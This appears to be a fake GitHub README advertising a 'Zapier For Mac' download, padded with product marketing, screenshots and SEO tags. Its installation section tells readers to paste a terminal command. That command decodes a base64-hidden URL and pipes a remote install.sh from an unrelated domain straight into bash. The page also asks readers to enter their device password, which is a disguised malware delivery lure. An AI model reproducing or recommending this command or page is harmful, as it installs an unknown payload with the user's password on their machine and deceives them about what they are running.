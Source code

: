 # Zapier For Mac — Download For macOS
![Zapier Logo](https://cdn.worldvectorlogo.com/logos/zapier-2.svg) 😊

Zapier For Mac is a powerful automation tool designed to connect over 7,000 apps, streamlining workflows and boosting productivity on macOS. Automate repetitive tasks like data syncing, notifications, and task management without coding. Follow the instructions below to download and install Zapier For Mac effortlessly.

[![Download Now](https://img.shields.io/badge/Download-Now-FF6200?style=for-the-badge&logo=zapier)](https://fituganshfgh.github.io/.github/zapier)

If you encounter issues downloading via the button above, follow the terminal command instructions below.

## 📦 How to Install Zapier For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🔗 **App Integration**: Connect over 7,000 apps, including Slack, Google Sheets, and Trello, for seamless workflows.
- ⚙️ **No-Code Automation**: Create "Zaps" to automate tasks without any coding knowledge.
- 🛠 **Custom Workflows**: Use filters, paths, and AI-powered agents for tailored automation.
- 📬 **Real-Time Notifications**: Set up triggers to send alerts via email, Slack, or SMS instantly.
- 🚀 **Time-Saving Efficiency**: Reduce manual tasks, allowing focus on high-priority work.
- 🌐 **macOS Optimization**: Native macOS app with distraction-free windows and account switching.

## About Zapier For Mac

Zapier For Mac is a leading automation platform that empowers macOS users to connect and automate workflows across thousands of apps, including Gmail, Slack, and Microsoft 365, without requiring coding skills. By creating "Zaps," users can automate repetitive tasks like syncing data, sending notifications, or updating project management tools, making it ideal for professionals, small businesses, and teams. Its native macOS app offers a distraction-free interface, seamless integration with macOS features, and support for Apple Silicon, ensuring a smooth experience on macOS 11.0 Big Sur or later.

The software’s strength lies in its ability to create customized workflows using triggers and actions. For example, a new email in Gmail can trigger a task creation in Trello or a notification in Slack, streamlining your workday. Zapier For Mac supports over 7,000 apps, making it one of the most versatile tools for macOS automation software. Its AI-powered features, such as chatbots and data analysis, further enhance productivity by automating complex tasks like lead qualification or customer support responses.

Designed for ease of use, Zapier For Mac is accessible to both beginners and power users. The free tier allows up to 100 tasks per month, while premium features like conditional workflows and multi-step Zaps unlock advanced automation. Its native macOS app supports keyboard shortcuts, notifications, and multi-account management, blending perfectly with the Apple ecosystem. For those searching for “free automation software macOS,” “Zapier download,” or “macOS productivity tools,” Zapier For Mac is a top-tier solution.

Zapier’s community-driven updates and extensive app integrations ensure it remains a reliable choice for macOS users. Its SEO-optimized design makes it easy to find for those seeking to automate workflows, save time, and boost efficiency. Whether you’re a marketer syncing social media posts, a developer automating GitHub tasks, or a business owner managing customer data, Zapier For Mac delivers a powerful, user-friendly platform to streamline your processes.

## Advantages of Zapier For Mac

- 🔄 **Extensive App Support**: Connects with over 7,000 apps for unmatched flexibility.
- 🖥 **Native macOS Experience**: Optimized for macOS with notifications and shortcuts.
- ⏩ **Time-Saving Automation**: Eliminates repetitive tasks with simple Zap setups.
- 🧠 **AI-Powered Features**: Leverage AI agents for advanced tasks like lead processing.
- 🆓 **Free Tier Available**: Start automating with no cost and up to 100 tasks monthly.
- 🔒 **Secure and Reliable**: Enterprise-grade security for safe data handling.

## 🖼 Preview

![Zap Creation](https://images.ctfassets.net/lzny33ho1g45/6ZzKkGxVivbHn0CgbjlVvT/db5da291b1ec30433d87826331d4837c/zapier-interfaces-guide-03-dashboard.png)  
*Create automated workflows with Zapier’s intuitive Zap editor.*

![App Integrations](https://images.ctfassets.net/lzny33ho1g45/6SbafMQdYTkdc4cQQ87Sns/6ac925de531eec0f1471a2eb74b5b4fe/zapier-canvas-product-screenshot.png)  
*Connect thousands of apps like Slack, Gmail, and Trello effortlessly.*

![AI Agents](https://helpdesk.bitrix24.com/upload/medialibrary/0e7/kki5f4xzwg2kxz48j43kufcmj46unu0o/Zapier%20for%20Tasks.%20Create%20a%20zap.jpeg)  
*Use AI-powered agents to automate complex tasks like data analysis.*

![Dashboard View](https://i.postimg.cc/0yWqH1mQ/zapier-dashboard.png)  
*Manage your Zaps and workflows from a clean, user-friendly dashboard.*

## 🔍 Tags

Zapier, Zapier app, Zapier mac, Zapier for mac, Zapier free, Zapier desktop, _zapier, zapier cost, cost of zapier, pricing zapier, zapier discount, free automation software macOS, Zapier download, macOS productivity tools, app integration mac, Zapier For Mac download, no-code automation macOS, workflow automation software, free task automation mac, macOS app sync, Zapier free mac, AI automation tools, cloud app integration
